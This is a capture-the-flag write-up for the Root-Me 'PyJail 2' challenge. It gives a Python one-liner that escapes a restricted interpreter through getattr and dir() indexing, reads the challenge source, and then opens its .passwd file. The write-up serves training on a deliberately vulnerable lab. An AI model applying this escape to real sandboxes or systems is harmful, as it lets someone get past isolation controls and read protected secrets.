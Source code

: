 # Python - PyJail 2
**Category:** Cryptanalysis **Points:** 40 **Description:**
Statement
Retrieve validation’s password and get out of this jail.

Challenge connection informations :

| Host	        | challenge02.root-me.org
| Protocol      | SSH                                               |
| Port          | 2222                                              |
| SSH access    | ssh -p 2222 app-script-ch8@challenge02.root-me.org| 
| Username      | app-script-ch8                                    |
| Password      | app-script-ch8                                    |

# Write-up

Here is my solution with only getattr and open:
```python
c=getattr(getout, dir(getout)[-6]); cd=getattr(c,dir(c)[-10]); f=open(cd); l=getattr(f, dir(f)[-8]); 
f=open(l()[30][27:34]); l=getattr(f, dir(f)[-8]); print l()
```


Details:

>c=getattr(getout, dir(getout)[-6]); cd=getattr(c,dir(c)[-10])


Call func_code.co_name, i.e. name of the source file: /challenge/shell/shell9/shell9.py
Now we cat read it:

> f=open(cd); l=getattr(f, dir(f)[-8])


l contains the source code of the challenge, line 30 we find os.system("cat .passwd").
We can retrieve the name of the file and read it:

> f=open(l()[30][27:34]); l=getattr(f, dir(f)[-8]); print l()


Which prints the desired flag.

